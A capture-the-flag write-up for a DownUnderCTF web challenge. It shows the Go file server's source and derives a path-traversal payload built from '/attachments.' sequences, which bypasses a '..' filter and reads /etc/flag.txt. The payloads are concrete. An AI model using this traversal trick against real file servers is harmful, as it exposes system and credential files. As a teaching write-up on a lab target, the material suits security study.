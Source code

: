 ```yaml
---
layout: writeup
title: secure email attachments
tags: WebX
excerpt: "During the email apocalypse, IT admins tried to prevent the DOS of all systems by disallowing attachments to emails. To get around this, users would create their own file storage web servers for hosting their attachments, which also got DOSed because everyone was mass spamming the links in emails..."
---
```


## Description

Dear Raahguu,

During the email apocalypse, IT admins tried to prevent the DOS of all systems by disallowing attachments to emails. To get around this, users would create their own file storage web servers for hosting their attachments, which also got DOSed because everyone was mass spamming the links in emails...

Can you read /etc/flag.txt from the filesystem?

Regards,
MC Fat Monke


The challenge then also provided the source code for the email attachments file system


## Solution

This challenge was coded in `GO`, now luckily (as I don't know GO) we don't need to get too deep into semantics of the language.

Some setup. The files provided showed a dockerfile:

```bash
FROM golang:1.24.4-bookworm AS base

COPY app /app
WORKDIR /app
RUN go build .

FROM golang:1.24.4-bookworm
COPY --from=base /app/secure-email-attachments /app/secure-email-attachments
COPY --from=base /app/attachments /app/attachments
COPY --from=base /app/flag.txt /etc/flag.txt

USER www-data
WORKDIR /app
ENTRYPOINT [ "/app/secure-email-attachments" ]
```

This file lets us know the exact directory and paths of everything, particularly of where the code is being executed and where the flag is. Meaning that we know that in order to get the flag we need to read the data in the `../../etc/flag.txt` file.


Next the actual program we need to exploit:

```go
package main

import (
	"net/http"
	"path/filepath"
	"strings"

	"github.com/gin-gonic/gin"
)

func main() {
	r := gin.Default()

	r.GET("/*path", func(c *gin.Context) {
		p := c.Param("path")
		if strings.Contains(p, "..") {
			c.AbortWithStatus(400)
			c.String(400, "URL path cannot contain \"..\"")
			return
		}
		// Some people were confused and were putting /attachments in the URLs. This fixes that
		cleanPath := filepath.Join("./attachments", filepath.Clean(strings.ReplaceAll(p, "/attachments", "")))
		http.ServeFile(c.Writer, c.Request, cleanPath)
	})

	r.Run("0.0.0.0:1337")
}
```

This file has a bunch of go stuff I don't understand, but the real guts (the `main` function) seems pretty simple.

1. It initialises as webserver `r := gin.Default()` (this is an assumption, don't take my word for it, thats just the only thing I can see that code doing)
2. If the user sends a GET request to a certain path, then set that path value to `p`
3. If `p` has any instances of  `..` in it, deny their request
4. Remove any instances of the string `/attachments` in the path string `p`
5. Return to the user the data in the file at the path `p` that they inputted
6. Run the server

Now this chain of logic has a semi common exploit in it. Namley a time-of-check-to-time-of-use (TOCTOU) vulnerability. This is a vulnerability where the program checks a certain state, and then based on that check preforms an action. But, the state might end up changing between that check and the action.

In this case, the string `p` is checked if it containes any instances of `..` (step 3). Then, the program modifies the value of `p` by removing any instances of `/attachments` (step 4), before then preforming the action of returning to the user the file at path location `p`.

This can be exploited by creating a string that at first passes that check of noting having any `..`, and then have it be modified in such a way that it now has `..` and as such can be used for file traversal. In this case the string `./attachments.` passes the check, then `/attachments` is removed so it becomes `..`

As such we can do directory traversal and can merely grab the flag with the following payload:

What we want:

```text
../../etc/flag.txt
```

Transformation proccess:

```text
.. -> ./attachments.
```

Therefore the payload should be:

```text
./attachments././attachments./etc/flag.txt
```

This is what want the value of `p` to be, but the problem is due to URL normalisation most browsers (including curl) a `/./` at any point gets simplified to `/`

As such the payload needs to get a bit more convoluted to remove instances of `/./`

So the new payload needs to be

```text
/attachments./attachments.//attachments./attachments./etc/flag.txt
```

Note: when using these payloads, they look like this:

```text
**********.com/attachments./attachments./attachments./etc/flag.txt
```

This then returns the flag: `DUCTF{w00000000T!!1one!?!ONE_i_ThORt_tH3_p4RtH_w4R_cL34N!!1??}`
